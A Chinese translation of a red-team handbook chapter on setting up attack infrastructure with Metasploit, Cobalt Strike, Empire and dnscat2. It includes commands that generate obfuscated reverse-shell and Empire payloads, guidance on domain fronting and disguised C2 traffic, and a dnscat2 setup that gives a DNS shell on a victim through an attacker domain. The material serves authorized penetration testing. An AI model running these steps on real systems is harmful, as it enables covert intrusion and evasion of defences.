# 第1章 赛前准备——安装

> 译者：[@Snowming](https://github.com/Snowming04)


      
作为红队人员，我们通常不太关注某次攻击的目的（更关注的是攻击手法）。相反，我们想从那些高级威胁组织的 TTP（Tactics、Techniques & Procedures）中学到更多。举个例子，这是一个来自于火眼(FireEye)公司的公开的[威胁情报分析报告](https://www2.fireeye.com/rs/848-DID-242/images/rpt-apt29-hammertoss.pdf)。从报告中，我们可以看到：这个威胁组织使用推特作为 C2 服务器，也使用了 github 作为存储加密图片和经过信息隐写文件的仓库。
我们可以参考此报告，根据攻击手法的特点来针对性的做出合适的防御方案，来看你的公司是否能发现并拦截这种攻击。

让我们对 APT 攻击做一些基本的介绍。由 MITRE 公司提出的 ATT&CK 矩阵( Adversarial Tactics, Techniques, and Common Knowledge matrix ) 是对 APT 攻击的详细分解。这个矩阵中是一个在各种攻击场景中使用的不同 TTP 的大集合。

商用 ATT&CK 矩阵 - Windows版

> 译者注：
>1. 上面的矩阵仅仅包扩适用于 Windows 平台的技术。完整的商用 Enterprise ATT＆CK 矩阵也包括适用于 [macOS](https://attack.mitre.org/matrices/enterprise/macos/) 和 [Linux]( https://attack.mitre.org/matrices/enterprise/linux/) 平台的技术。
>2. 矩阵中的内容严格复制自原书。只是因为原书图片分辨率太低，为了读者的阅读体验，特意重新作图。ATT&CK 矩阵至今没有中文翻译，因为译者才疏学浅，不敢献丑翻译，故保留英文。但是需要说明的是，书中列出的矩阵内容，跟 MITRE 公司官网给出的矩阵内容存在差异，可能是因为矩阵被重新修订了。故给出 [Enterprise Matrix - Windows的官网地址](https://attack.mitre.org/matrices/enterprise/windows/) 供读者参考。

另一个资源是 [@cyb3rops](https://twitter.com/cyb3rops) 整理的 [APT组织与方法持续更新列表]( http://bit.ly/2GZb8eW)。这个谷歌文件列举了世界多个国家的疑似 APT 组织及其使用的工具集。对于红队成员来说，我们可以参考此文档来模拟不同的攻击。当然，我们可能不会使用与文档中列举的相同的工具，但是我们可以构建类似的工具来做同样的攻击。


## 假定攻破练习 
面对安全问题，企业的正确态度是从一开始就应该预设自己已经被攻破了。然而事实是，如今太多的公司认为通过一些所谓的安全配置或者年度渗透测试，它们是安全的。我们需要进入一种思维状态，我们总是蹲守，假设邪恶就潜伏在周围，我们需要时刻寻找异常。

这就是红队的活动与渗透测试有很大区别的地方。由于红队的活动重点是检测/给出措施而不是漏洞，所以我们可以做更多独特的评估。一种为客户提供巨大价值的评估利益被称为**假定突破练习（assumed breach exercise）**。在一个假定突破练习中，总会遇到一些 0-day。那么，客户端能否识别和减轻第二阶段和第三阶段步骤的影响呢？

在这些场景中，红队与公司内部的有限团队一起工作，在他们的服务器上执行一个定制的恶意软件 payload。这个 payload 应该尝试以多种方式连接，确保绕过常见的AV，并允许额外的 payload 从内存中执行。我们将在整本书提供一些 payload 的实例。一旦最初的 payload 被执行，所有的乐趣就从这里开始了!


## 设定你的行动
这是红队活动中我最喜欢的一部分。在进攻你的第一个系统之前，你需要确定你的红队活动范围。在很多渗透测试中，你会得到一个目标，然后不断地尝试进入那个单一的系统。如果某件事情失败了，你就继续做下一件事。没有脚本，你通常非常专注这个网络。

在红队活动中，我们从几个目标开始。这些目标可以包括但不限于:
- 最终的目标是什么?只是 APT 检测吗?是要在服务器上获取标志吗？是从数据库中获取数据吗?或者只是为了得到检测时效(TTD)指标?
- 是否有我们想要复制的公开活动?
- 你会用什么技巧?我们讨论过用 MITRE ATT&CK 矩阵，但是在每个类别中确切的技术是什么?
    - [红金丝雀研究小组](https://www.redcanary.com/)提供了每一种技术的详细信息。我强烈建议你花点时间来查看这些[详细信息](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/windows-index.md)。
- 客户希望你使用什么工具?是一些诸如 Metasploit、Cobalt Strike、DNS Cat 这样的商业攻击工具软件？还是自制的定制化工具?

一个好消息是被抓住也是评估的一部分。有一些入侵中我们会被抓4到5次，然后在4到5个不同的环境中被消灭。这确实向你的客户表明，他们的防御如他们预期的一样在起作用（或没有起作用）。在书的最后，我将提供一些报告示例，说明我们如何获取指标并报告这些数据。

## 设置你的外部服务器 
我们使用许多不同的服务来建立我们的红队活动。在当今这个充斥着 VPS的世界里，在互联网上抵抗攻击者的机器不会超出你的预算。例如，我通常使用 Digital Dcean 公司的[ Droplets 计算服务](https://www.digitalocean.com/products/compute)或 AWS 的 [Lightsail 服务器](https://lightsail.aws.amazon.com)来配置我的 VPS 服务器。我使用这些服务的原因是它们通常成本很低(有时是免费的)，可以选择 Ubuntu 系统的服务器，并且可以根据需要选择购买不同区域的服务器。最重要的是，它们非常容易设置。在几分钟内，你就可以设置并运行多个服务器的 Metasploit 和 Empire 服务。

在本书中，我将重点介绍 AWS 的 Lightsail 服务器，因为它易于设置、能够自动化服务，以及通常流向 AWS 的流量。在你成功创建了一个你喜欢的镜像后，你可以快速地将该镜像克隆到多个服务器，这使得构建现成的 C2(Command and Control) box 非常容易。

同样，你应该确保遵守 VPS 提供者的[服务条款](https://aws.amazon.com/cn/service-terms/)，这样你就不会陷入任何问题。

下面是操作要点：
- https://lightsail.aws.amazon.com/
- 创建一个实例
    - 我强烈建议至少使用1gb内存
    - 硬盘大小一般不会有什么问题，可以随意选择
- Linux/Unix
- 操作系统只选 -> Ubuntu
- 下载 Cert(证书)
- chmod 600 cert(译者注:只有拥有者有读写权限)
- ssh -i cert ubuntu@[ip]

搭建服务器的一个快速方法是集成 TrustedSec 公司的渗透测试框架 (PTF)。[PTF 框架](https://github.com/trustedsec/ptf)是一些脚本的合集，可以为你做大量的艰苦工作并为其他所有内容创建了一个框架。让我们通过一个快速示例来安装我们所有的漏洞利用模块，信息收集模块，后渗透利用模块，PowerShell 攻击模块和漏洞分析工具：
- sudo su -
- apt-get update
- apt-get install python
- git clone https://github.com/trustedsec/ptf /opt/ptf
- cd /opt/ptf && ./ptf
- use modules/exploitation/install_update_all
- use modules/intelligence-gathering/install_update_all
- use modules/post-exploitation/install_update_all
- use modules/powershell/install_update_all
- use modules/vulnerability-analysis/install_update_all
- cd /pentest

下图显示了所有的可用模块，其中一些模块是我们自己安装的。
<br>
图: 所有可用模块的列表

如果我们查看我们的攻击者 VPS，就可以看到安装在我们的机器上的所有工具。如果我们想要启动 Metasploit，我们可以输入:*msfconsole*。<br>
<br>
图: 安装在 /pentest 文件夹下的所有工具

我仍然建议建立强大的 IPTables 规则。因为这将是你的攻击服务器，所以最好限制 SSH 身份验证可以从何处发起， Empire/Meterpreter/Cobalt Strike的 payload 可以从何处发起，以及你所支持的任何钓鱼页面。

如果你还记得在2016年末，有人发现了未经身份验证的远程代码执行(RCE) ( https://blog.cobaltstrike.com/2016/09/28/cobalt-strike-rce-active-exploitation-reported/ )。你肯定不希望客户数据受到攻击服务器的损害。

我曾经看到一些红队在 AWS 中，使用 Docker 运行 Kali Linux (或者至少是 Metasploit) (参考: http://bit.ly/2qz2vN9 )。在我看来，虽然创建你自己的系统怎么样都可以。但是更好的选择是创建一个高效且可重复的流程来部署多台机器。使用 Lightsail 的 最大好处是一旦你将你的机器配置为你的首选项，你就可以对一台机器进行快照，并部署使用该镜像的多个全新实例。

如果你想让你的环境更上一层楼，看看 Coalfire 研究所的团队。他们构建了自定义模块来为你完成所有的艰苦工作和自动化。[Red Baron](https://github.com/Coalfire-Research/Red-Baron) 是 Terraform 的一组模块和自定义/第三方提供者，它可以为红队自动创建弹性、一次性、安全和灵活的基础设施。无论你想要构建一个钓鱼服务器，Cobalt Strike 基础设施，或创建 DNS C2 服务器，你都可以用 Terraform 做到这一切。

查看 https://github.com/Coalfire-Research/Red-Baron 并查看所有不同的模块以便快速构建你自己的基础架构。

## 红队的核心工具 
红队可能会使用很多工具，但是让我们来讨论些最核心的工具。请记住，作为一个红队成员，我们的目的不是破坏环境(虽然这是最有趣的)，而是要复制现实世界的攻击，以查看客户是否受到保护，并可以在很短的时间内检测到攻击。在前面的章节中，我们了解了如何从其他 APT 组织那里复制攻击者的概要文件和工具集，所以让我们回顾一下一些最常见的红队工具。

### Metasploit 框架
本书不会像前几本书那样深入探讨 Metasploit。尽管 [Metasploit 框架](https://github.com/rapid7/metasploit-framework/commits/master)最初是从 2003 年开发的，但它现在仍然是一个非常棒的工具。这是由于最初的开发者 H.D. Moore 和非常活跃的社区为它提供持续支持。这个社区驱动的框架，似乎每天更新，拥有所有最新的公开漏洞的利用、后渗透利用模块、辅助模块等等。

对于红队项目，我们可能使用 Metasploit 通过[MS17-010永恒之蓝漏洞](http://bit.ly/2H2PTsI)危害内部系统，以获得我们的第一个内网 shell,或者我们可能使用 Metasploit 为我们的社会工程攻击生成一个 Meterpreter payload。 

在后面的章节中，我将向你展示如何重新编译你的 Metasploit payload 并绕过杀毒软件和网络监控。

#### 混淆 Meterpreter 的 Payload
如果我们正在针对目标进行一些社工尝试，我们可能会使用 Word 或 Excel 文档作为我们的 payload（攻击载荷）的载体。 但是，一个潜在的问题是我们可能无法包含 Meterpreter 的 payload 的二进制文件或让目标机器从 Web 下载我们的 payload，因为这些操作可能会触发目标机器中的杀毒软件的警报。 所以，这里给出一个简单的解决方案，使用 PowerShell 进行模糊处理：

```shell
msfvenom -payload windows/x64/meterpreter_reverse_http -format psh -out meterpreter-64.ps1 LHOST=127.0.0.1
```

我们甚至可以将混淆提升到新的水平，并使用 [Unicorn](https://github.com/trustedsec/unicorn) 等工具生成更多模糊的基于 PowerShell 的 Meterpreter payload，我们将在本书中详细介绍这些混淆器。



此外，使用受信任的机构签发的 SSL/TLS 证书可以帮助我们绕过某些网络中的 IDS（入侵检测系统），具体可以参考以下链接实现：[Meterpreter Paranoid Mode](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode)。

最后，在本书的后面部分，我们将讨论如何重新编译利用 Metasploit/Meterpreter 来绕过基于主机和网络的检测工具。

### Cobalt Strike
Cobalt Strike 是迄今为止我最喜欢的红队模拟工具之一。什么是 Cobalt Strike 呢？它是一种用来后期持久渗透，横向移动，流量隐藏、数据窃取的工具。 Cobalt Strike 并没有直接的漏洞利用，也没有通过最新的 0-Day 漏洞来破坏系统。当你已经在服务器上执行了 CS 的恶意代码或者将 CS 用作网络钓鱼活动的一部分时，你就能感受到 CS 的功能是多么广泛并且强大。 一旦你可以在机器上执行 Cobalt Strike 的 payload，它创建一个 Beacon(远控木马功能)连接回连到 C2 服务器（teamserver）。

新的 Cobalt Strike 许可证的费用为3500美元(单用户一年)，所以它并不是一个便宜工具。 不过该软件有免费的限量试用版。

#### Cobalt Strike 基础设施
正如上文所述，在基础设施方面，我们希望设置这样一个可重用且高度灵活的环境。Cobalt Strike 支持重定向，当你的 Cobalt Strike 使用的 C2 域名被销毁了，你不需要创建并启用一个新的环境，只需要替换一个新的 C2 域名。你可以在这里找到更多的使用 socat 配置这些重定向器的信息：[链接1](http://bit.ly/2qxCbCZ)  &  [链接2](http://bit.ly/2IUc4Oe)



为了使你更好的重定向，我们可以使用域名前置（域名幌子）。域名前置是使用其他的域名和基础设施的技术作为控制器重定向的技术集合([参考链接](http://bit.ly/2GYw55A))。这可以通过使用流行的内容分发网络(CDNs)来实现，如亚马逊云的 CloudFront 或其他的 Google Hosts 来隐蔽我们的流量源。这在过去曾被不同的攻击者所利用过([参考链接](http://bit.ly/2HoCRFi))。

通过使用这些高信誉域名，无论 HTTP 或 HTTPS 的任何流量，看起来都像是它正在与这些域通信，而不是与我们的恶意 C2 服务器通信。这一切是如何运作的？用一个比较抽象的例子来说，你的所有流量将被发送到 CloudFront 的一个主要完全限定域名(FQDNs)，例如 a0.awsstatic.com，它是 CloudFront 的主要域名。修改请求中的主机 header 将把所有流量重定向到我们的 CloudFront 分发(CloudFront distribution)，后者最终会将流量转发到我们的 Cobalt Strike C2服务器上([参考链接](http://bit.ly/2GYw55A))。



通过更改 HTTP 主机的 header，CDN 将很轻松的的的地把流量传输回到正确的服务器。红队一直使用这种技术通过使用高信誉域名来隐藏 C2 服务器的流量。

**另外两个支持域名前置的两个不同公司的优秀资源**：
- CyberArk 还写了一篇很好的博客文章，在[文章](http://bit.ly/2Hn7RW4)里他介绍了如何使用谷歌的应用产品来使你的流量看起来是流经了 www.google.com, mail.google.com 或者 docs.google.com.
- Vincent Yiu 写了一篇关于如何使用阿里巴巴 CDN 来支持自己的域名前置攻击的[文章](http://bit.ly/2HjM3eH)。
- Cobalt Strike 不是唯一可以支持域名前置的工具，也可以通过 Meterpreter 来完成([参考链接](https://2rot13.wordpress.com/2018/01/03/domain-fronting-with-meterpreter/))。 

> 注:在本书出版时，AWS(甚至谷歌云)已经启动实现对域名前置的保护( https://amzn.to/2I6lSry )。这并不能阻止这种类型的攻击，只是需要不同的第三方资源来进行利用。

尽管不是基础架构的一部分，但是我们还是应该要理解 beacon 是如何在内部环境中工作的。在操作安全方面，我们应该避免建立会被轻易发现并清除的持久连接。作为一名红队成员，我们必须假设我们的一些客户端是会被蓝队发现的。如果我们让所有的主机都与一个或两个 C2 服务器通信，蓝队很容易就可以把整个基础设施连根拔除。幸运的是，Cobalt Strike 支持内网主机之间使用基于 SMB 的 Beacon 来进行交互。这允许你让一台受感染的计算机与你的 C2 服务器进行正常且合适的 beacon 连接，并使内部网络上的所有其他的服务器通过 SMB 协议与最初受感染的主机进行通信。采用这种连接方式，当蓝队检测到一个二级系统有问题并进行取证分析，他们可能会无法识别与这次攻击相关的 C2 服务器域名。

Cobalt Strike 可以操纵你的 Beacon 通信，这对红队成员来说是一个非常有用的特性。使用自定义 C2 配置文件，你可以让所有来自受感染主机系统的流量看起来和普通流量无异。现在我们会发现越来越多的内网环境中会针对第7层网络应用层进行过滤。很多时候蓝队在这层中找寻那些网络通信中的异常流量，那么我们怎样才能让我们的C2通信变得如同正常的 Web 流量呢？这就是可定制 C2 配置文件发挥作用的地方。看看这个[例子]( https://github.com/rsmudge/Malleable-C2-Profiles/blob/master/normal/amazon.profile)。阅读这个例子，你会看到一些显而易见的信息：

- 我们可以看出这将会产生带有URI路径的HTTP请求： 

```
set uri “/s/ref=nb_sb_noss_1/167-3294888-0262949/field-keywords=books”;
```

- 主机 header 设置为 Amazon：

```
header “Host” “www.amazon.com”;
```

- 甚至一些自定义服务器的 header 也从 C2 服务器发回：

```
header “x-amz-id-1” “THKUYEZKCKPGY5T42PZT”;
header “x-amz-id-2” “a21yZ2xrNDNtdGRsa212bGV3YW85amZuZW9ydG5rZmRuZ2t
```

现在很多红队已经在许多不同的活动中使用了这些配置文件，许多安全厂商已经给[所有常见的自定义配置文件](https://github.com/rsmudge/Malleable-C2-Profiles)创建了指纹签名。为了解决这个问题，我们能做的是: 确保修改了配置文件中的所有静态字符串，确保更改了所有 User-Agent 信息，使用真实的证书配置 SSL（不要使用 Cobalt Strike 默认的 SSL 证书），调整抖动率，并更改客户端的的 beacon 时间。 最后一个注意事项是确保通过 POST（http-post）命令进行通信，因为如果不这样做可能会导致使用自定义配置文件时出现很多问题。 如果你的配置文件注明了通过 http-get 进行通信，它仍然有效，但上传大文件将一直被限制。 请记住，GET 请求通常限制在2048个字符以内。

SpectorOps 安全团队还创建了可定制混淆 C2 配置文件的[项目](https://github.com/bluscreenofjeff/Malleable-C2-Randomizer).
> 译者注: 这个脚本可以将 Cobalt Strike 的配置文件进行混淆来绕过一些基于签名检测的软件，其原理是将变量替换为提供的字典中的随机字符串，然后输出新的 Malleable C2 配置文件。

#### Cobalt Strike 的 Aggressor 脚本
Cobalt Strike 项目有很多贡献者。Aggressor 脚本是一种面向红队操作和对手模拟的脚本语言，其灵感来源于可脚本化的 IRC 客户端和机器人。开发它的目的有两个：
1. 你可以创建长时间运行的机器人来模拟虚拟红队成员，并与你并肩进行黑客攻击
2. 你还可以根据你的需要使用它来扩展和修改 Cobalt Strike 客户端的功能
官方介绍页面：https://www.cobaltstrike.com/aggressor-script/index.html

例子：HarleyQu1nn 将不同的 Aggressor 脚本放在一个项目中提供给你用于后续漏洞利用： http://bit.ly/2qxIwPE

### PowerShell Empire
Empire 是一个后期漏洞利用的框架，包含一个纯 PowerShell2.0 的 Windows 代理和一个纯 Python 2.6/2.7 的 Linux/OS X 代理。它是以前的 PowerShell Empire 和 Python EmPyre 项目的合并。 该框架提供了加密安全通信和灵活的架构。在 PowerShell 方面，Empire 实现了无需 powershell.exe 就可运行 PowerShell 代理的功能。并且 Empire 有很多可以快速部署的后期漏洞利用模块，从键盘记录器到 Mimikatz。Empire 还可以调整通信，躲避网络检测。所有的这些功能都封装在一个以实用性为重点的 [框架]( https://github.com/EmpireProject/Empire)中。

对于红队人员来说，PowerShell 是我们最好的朋友之一。在初始化有效 payload 之后，所有随后的攻击都保存在内存中。Empire 最好的地方就是它被开发者积极地维护和更新中，以便你可以使用最新的后期漏洞利用模块进行攻击。 它们还具有适用于 Linux 和 OS X 的 C2 连接。因此，你仍然可以创建基于 MAC 的 Office 宏，当执行之后，在 Empire 中拥有一个全新的代理。

我们将通过本书更详细地介绍 Empire，以便你了解它的威力如何。在设置 Empire 方面，确保你已安全地配置它非常重要：
- 将证书路径 CertPath 设置为一个真实可信的 SSL 证书。
- 更改 DefaultProfile 端点。许多第7层防火墙都在寻找确切的静态端点。
- 更改用于通信的用户代理。

在前两版书中我们提过，Metasploit 的源文件用于自动化，Empire 现在也支持自动运行的脚本，这样可以提高效率。

运行 Empire：
- 初始化 Empire

```
cd /opt/Empire && ./setup/reset.sh
```

- 退出

```
exit
```

- 安装证书（最好是使用真实受信任的证书）

```
./setup/cert.sh
```

- 开始运行 Empire

```
./empire
```

- 创建一个监听器

```
listeners
```

- 选择你的监听器类型（我们实验使用的是 HTTP）

```
uselistener [按两次 tab 键来查阅所有类型的监听器]
uselistener http
```

- 查看监听器的全部配置信息

```
info
```

- 设置以下内容（即设置KillDate 12/12/2020）

```
KillDate - 规定一个结束时间然后自动清理代理
DefaultProfile - 确保更改所有端点（即/admin/get.php,/news.php）。你可以根据需要制作它们，例如/seriously/notmalware.php
DefaultProfile - 确保也更改你的用户代理。 我一般是查看使用过的顶级用户代理并选择从中选择一个。
Host - 更改为通过端口443的 HTTPS
CertPath - 添加 SSL 证书的路径
UserAgent - 将其更改为你的常用用户代理
Port - 设置为443
ServerVersion - 将其更改为另一个常见的服务器 Header
```

- 当你完成所有这些，开启你的监听器

```
execute
```




#### 配置 Payload

payload 是将在受害者系统上运行的实际恶意软件。 这些 payload 可以在 Windows，Linux 和 OSX 中运行，但 Empire 以其基于 PowerShell Windows 的 Payload 而闻名：

- 进入主菜单

```
main
```

- 为 OSX，Windows，Linux 创建可用的 stager。 我们将创建一个简单的 bat 文件作为示例，但实际上你可以为 Office 文件创建宏或者为一个 USB 橡皮鸭创建 payload（译者注： USB 橡皮鸭/USB RUBBER DUCKY 是最早的按键注入工具）

```
usestager [按两次tab键来查阅所有不同的类型]
usestager windows/launcher_bat
```

- 查看所有设置
```
info
```

- 配置所有 Settings

```
http 把 Listener 设置为 http
配置 UserAgent(用户代理)
```

- 创建 Payload
```
generate
```

- 在另一个终端窗口中查看你的 payload 
```
cat /tmp/launcher.bat
```



如你所见，创建的 payload 被严重混淆。 你现在可以把这个 .bat 文件丢到任何 Windows 系统上。 当然，你可能会创建一个 Office 宏文件或一个USB橡皮鸭（注：USB RUBBER DUCKY/USB 橡皮鸭是最早的按键注入工具）的 payload，但这只是众多示例中的一个。

如果你尚未在 Kali 图形界面上安装 PowerShell，那么最好的方法是手动安装它。 在 Kali 上安装 PowerShell：
```shell
apt-get install libunwind8

wget http://security.debian.org/debian-security/pool/updates/main/o/openssl/libssl1.0.0_1.0.1t-1+deb7u3_amd64.deb

dpkg -i libssl1.0.0_1.0.1t-1+deb7u3_amd64.deb

wget http://security.ubuntu.com/ubuntu/pool/main/i/icu/libicu55_55.1-7ubuntu0.3_amd64.deb

dpkg -i libicu55_55.1-7ubuntu0.3_amd64.deb

wget https://github.com/PowerShell/PowerShell/releases/download/v6.0.2/powershell_6.0.2-1.ubuntu.16.04_amd64.deb

dpkg -i powershell_6.0.2-1.ubuntu.16.04_amd64.deb
```

### dnscat2 
内网出口一般对出站流量做了严格限制，但是通常不会限制 DNS 请求，也就是 UDP 53 请求。[dnscat2](https://github.com/iagox86/dnscat2) 就是一款利用 DNS 协议创建加密 C2 隧道来控制服务器的工具，所以说这种隧道几乎在每个网络中都可以使用。**dnscat2 由客户端和服务端两部分组成**。

基于 DNS 的 C2 服务器连接的渗透方案提供了一种很好的机制来隐藏你的流量，规避网络传感器并绕过网络限制。在许多限制性环境或生产环境中，我们遇到的网络要么直接不允许出站流量，要么流量也会被严格的限制或监控。为了绕过这些保护，我们可以使用像 dnscat2 这样的工具。我们关注 dnscat2 的原因是因为它不需要 root权限就允许shell访问和数据传输。

在许多安全环境中，直接使用 UDP 或 TCP 出站会受到限制。 为什么不利用基础架构中已经内置的服务呢？许多受保护的网络包含一个 DNS 服务器来解析内部主机，同时还允许解析外部资源。通过为我们拥有的恶意域名设置一个权威服务器，我们可以利用这些 DNS 解析来对我们的恶意软件进行命令执行和控制。



在我们的场景中，我们将设置名为 “loca1host.com” 的攻击者域。 我们希望通过对 “localhost” 创建“分身”来更多地隐藏我们的流量。请你自行将 “loca1host.com” 替换为你拥有的域名。我们将配置 loca1host.com 的 DNS 信息，使其成为一个权威 DNS 服务器(Authoritative DNS server)。
在这个例子中，我们将使用 GoDaddy 的 DNS 配置工具，但你也可以换成任何其他的 DNS 服务。

#### 使用GoDaddy设置一个权威DNS服务器
- 首先，确保将一台 VPS 服务器设置为你的 C2 攻击服务器并获取了该服务器的 IP。
- 在 GoDaddy 网站购买域名后，登录你的 GoDaddy（或其他类似的）帐户。
- 选择你的域，单击“管理”，然后选择“高级 DNS”。
- 先设置两条 A 记录指向你的 VPS 的 IP
```
ns1 (然后输入你的VPS的IP)
ns2 (然后输入你的VPS的IP)
```
- 然后设置自定义 NS 记录
```
添加 ns1.loca1host.com
添加 ns2.loca1host.com
```


如上图所示，我们现在让我们的 NS 记录指向 ns1.loca1host.com 和 ns2.loca1host.com，它们都指向我们的攻击 VPS 服务器的 IP。 如果你尝试解析 loca1host.com 的任何子域（即 vpn.loca1host.com），它将尝试使用我们的 VPS 进行相关的域名解析。对我们来说幸运的是，dnscat2 在 UDP 端口53上监听并为我们做了所有繁重的工作。

接下来，我们将需要完全设置充当我们的自定义域名解析服务器的攻击服务器。初始化并设置 dnscat2 服务器：

```shell
sudo su -
apt-get update
apt-get install ruby-dev
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
apt-get install gcc make
gem install bundler
bundle install
请测试确认以下脚本能够正常运行: ruby ./dnscat2.rb
备注: 如果你使用的是 Amazon Lightsail，请确保安全组设置中允许 UDP 端口53
```

对于客户端的代码，我们需要将其编译为 Linux 支持执行的二进制文件。

#### 编译客户端
```
git clone https://github.com/iagox86/dnscat2.git /opt/dnscat2/client
cd /opt/dnscat2/client/
make
我们现在应该创建一个 dnscat 二进制文件！
(如果你在 windows 环境下编译，需要将 client/win32/dnscat2.vcproj 加载到 Visual Studio 并点击 “build” )
```

现在我们已经配置好了权威 DNS，我们的攻击服务器作为一个 DNS 服务器正在运行 dnscat2，并且我们已经编译了恶意软件。我们已经准备好在目标机器中执行我们的 payload。

在开始之前，我们需要在攻击服务器上启动 dnscat2。要启用多个配置，其中的主要配置是配置那个 `-secret` 标志来确保我们在 DNS 请求中的通信是加密的。另外，一定要更换我上面用于演示的 loca1host.com 域名，使用你自己拥有的域名并创建随机密钥字符串。

在你的攻击服务器中启用 dnscat2:
```
screen
ruby ./dnscat2.rb loca1host.com —secret 39dfj3hdsfajh37e8c902j
```

假设你在易受攻击的服务器上有某种 RCE（远程命令执行漏洞）。 你可以运行 shell 命令并上传我们的 dnscat payload。执行 payload：
```
./dnscat loca1host.com —secret 39dfj3hdsfajh37e8c902j
```

